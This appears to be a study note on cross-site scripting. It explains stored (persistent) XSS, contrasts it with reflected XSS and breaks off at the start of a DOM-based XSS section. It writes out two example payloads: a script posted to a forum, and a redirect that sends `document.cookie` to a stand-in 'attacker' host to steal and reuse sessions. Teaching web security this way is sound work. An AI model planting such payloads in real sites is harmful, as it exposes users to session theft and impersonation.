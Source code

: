 Stored cross-site scripting (also known as second-order or persistent XSS) 

Stored XSS attacks occur when the malicious script is permanently stored on the target system, such as in a database, message board, comment field, or any other location where data is stored. Each time users access this data, the script gets executed in their browser.

Consider a forum where users can post messages. An attacker posts a message containing a script, such as `<script>fetch('/steal-cookie').then(response => document.write(response))</script>`. Every user who views this message will execute the script, potentially leading to cookie theft or other malicious actions.

#### example 

assume that the attacker's ultimate goal is to steal the victim's cookies by exploiting( 利用 ) an XSS vulnerability in the website.

 This can be done by having the victim's browser parse HTML code:

`<script>window.location='http://attacker/?cookie='+document.cookie</script>`

This script navigates the user's browser to a different URL, triggering an HTTP request to the attacker's server. **The URL includes the victim's cookies as a query parameter, which the attacker can extract from the request** .

 Once the attacker has acquired the cookies, he can use them to impersonate( 假冒 ) the victim and launch further attacks.

![Diagram of a persistent XSS attack](https://excess-xss.com/persistent-xss.png)





In terms of exploitability, the key difference between reflected and stored XSS is that a stored XSS vulnerability enables attacks that are self-contained within the application itself. The attacker does not need to find an external way of inducing other users to make a particular request containing their exploit. Rather, the attacker places their exploit into the application itself and simply waits for users to encounter it.

The self-contained nature of stored cross-site scripting exploits is particularly relevant in situations where an XSS vulnerability only affects users who are currently logged in to the application. If the XSS is reflected, then the attack must be fortuitously timed: a user who is induced to make the attacker's request at a time when they are not logged in will not be compromised. In contrast, if the XSS is stored, then the user is guaranteed to be logged in at the time they encounter the exploit



### DOM-based XSS

https://portswigger.net/web-security/cross-site-scripting/dom-based

DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink(接收器) that supports dynamic code execution, such as `eval()` or `innerHTML`. 



#### example
